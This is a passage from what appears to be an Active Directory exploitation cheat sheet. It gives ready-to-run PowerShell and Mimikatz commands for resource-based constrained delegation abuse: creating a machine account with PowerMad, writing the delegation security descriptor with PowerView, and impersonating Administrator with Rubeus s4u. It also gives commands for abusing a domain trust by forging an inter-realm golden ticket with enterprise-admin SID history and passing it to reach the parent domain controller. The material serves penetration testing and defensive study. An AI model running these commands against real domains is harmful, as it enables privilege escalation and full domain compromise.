 A more often-seen attack to RBCD is when we have `GenericWrite`, `GenericAll`, `WriteProperty`, or `WriteDACL` permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.

# Create a new machine account using PowerMad  
New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)# Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target  
$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid  
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"  
$SDbytes = New-Object byte[] ($SD.BinaryLength)  
$SD.GetBinaryForm($SDbytes,0)# Use PowerView to use our GenericWrite (or similar) priv to apply this SD to the target  
Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}# Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target  
.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt

PowerShell

# Abusing domain trust

All commands must be run with DA privileges in the current domain.

Note that if you completely compromise a child domain (`currentdomain.targetdomain.com`), you can _by definition_ also compromise the parent domain (`targetdomain.com`) due to the implicit trust relationship. The same counts for any trust relationship where SID filtering is disabled (see [‘Abusing inter-forest trust’](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#abusing-inter-forest-trust) below).

## Using domain trust key

From the DC, dump the hash of the `currentdomain\targetdomain$` trust account using Mimikatz (e.g. with LSADump or DCSync). Then, using this trust key and the domain SIDs, forge an inter-realm TGT using Mimikatz, adding the SID for the target domain’s enterprise admins group to our ‘SID history’.

kerberos::golden /domain:currentdomain.targetdomain.com /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:e4e47c8fc433c9e0f3b17ea74856ca6b /user:Administrator /service:krbtgt /target:targetdomain.com /ticket:c:\users\public\ticket.kirbi

Plaintext

Pass this ticket with Rubeus.

.\Rubeus.exe asktgs /ticket:c:\users\public\ticket.kirbi /service:LDAP/dc.targetdomain.com /dc:dc.targetdomain.com /ptt

PowerShell

We can now DCSync the target domain (see below).
